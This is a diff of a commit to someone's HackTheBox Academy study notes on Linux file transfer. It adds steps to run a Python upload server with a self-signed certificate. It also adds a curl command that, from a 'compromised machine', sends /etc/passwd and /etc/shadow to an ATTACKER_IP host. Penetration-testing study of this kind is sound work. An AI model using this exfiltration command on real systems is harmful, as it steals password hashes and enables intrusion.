

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Linux File Transfer Methods.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
linux upload files

````diff
--- a/HTB-Academy/6-File-Transfers/Linux File Transfer Methods.md
+++ b/HTB-Academy/6-File-Transfers/Linux File Transfer Methods.md
@@ -86,3 +86,32 @@ netstat -lnpt
 ```
 scp plaintext@192.168.49.128:/root/myroot.txt .
 ```
+
+
+#### Web Upload
+
+**Start Web Server**
+```
+sudo python3 -m pip install --user uploadserver
+```
+
+**Now Create a Self Signed Certificate**
+```
+openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
+```
+
+**Start the Web Server** - here we're making a directory to host the server
+```
+mkdir https && cd https
+```
+
+```
+sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
+```
+
+From the target/compromised machine upload the /etc/passwd and /etc/shadow files
+
+```
+curl -X POST https://ATTACKER_IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
+```
+	- used the --insecure option because we used a self-signed cert we trust
````
